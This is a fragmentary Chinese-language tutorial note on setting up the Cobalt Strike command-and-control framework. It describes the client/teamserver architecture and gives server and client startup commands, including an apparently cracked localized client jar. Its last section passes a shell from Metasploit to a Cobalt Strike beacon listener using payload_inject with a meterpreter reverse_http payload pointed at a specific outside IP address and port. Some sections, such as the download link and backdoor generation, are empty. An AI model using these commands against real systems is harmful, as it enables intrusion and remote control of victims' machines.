

## 10-cobaltstike

#### 一、cobaltstike介绍
	早期版本CobaltSrtike依赖Metasploit框架，而现在Cobalt Strike已经不再使用MSF而是作为单独的平台使用，它分为客户端(Client)与服务端(Teamserver)，服务端是一个，客户端可以有多个，团队可进行分布式协团操作。

#### 二、下载地址
	https://

#### 二、cobaltstike架构
	cobaltstrike
	Scripts            用户安装的插件
	Log                每天的日志
	c2lint             检查profile的错误异常
	cobaltstrike.jar   客户端程序
	icon.jpg           LOGO
	license.pdf        许可证文件
	teamserver         服务端程序
	update.jar         更新程序
	third-party        第三方工具，里面放的vnc dll
	update

#### 三、启动
	windows服务端下启动
		.\Keytool.exe -keystore ./cobaltstrike.store -storepass 123456 -keypass 123456 -genkey -keyalg RSA -alias cobaltstrike -dname "CN=Major Cobalt Strike, OU=AdvancedPenTesting, O=cobaltstrike, L=Somewhere, S=Cyberspace, C=Earth"
		.\teamserver.bat vpsip 123456

	客户端启动
		java -Dfile.encoding=UTF-8 -javaagent:CobaltStrikeCN.jar -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -jar cobaltstrike.jar

	Linux下服务端启动
		安装JDK
		chmod +x teamserver
		./teamserver vpsip 123456

	客户端启动
		java -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -Xms512M -Xmx1024M -jar cobaltstrike.jar

#### 四、Listener创建
	创建Listener

	生成后门
	

#### 五、msf与cobalt strike相互联动传递shell
	cs开启监听
	cobalt strike --> Listeners --> add --> Beacon HTTP

	msf
	use exploit/windows/local/payload_inject 
	> set payload windows/	meterpreter/reverse_http
	> set lhost 47.56.134.0
	> set lport 5000
	> set session 1
	> set disablepayloadhandler 		
	> run
	
	
	
	
	
	
	
	
	
	
			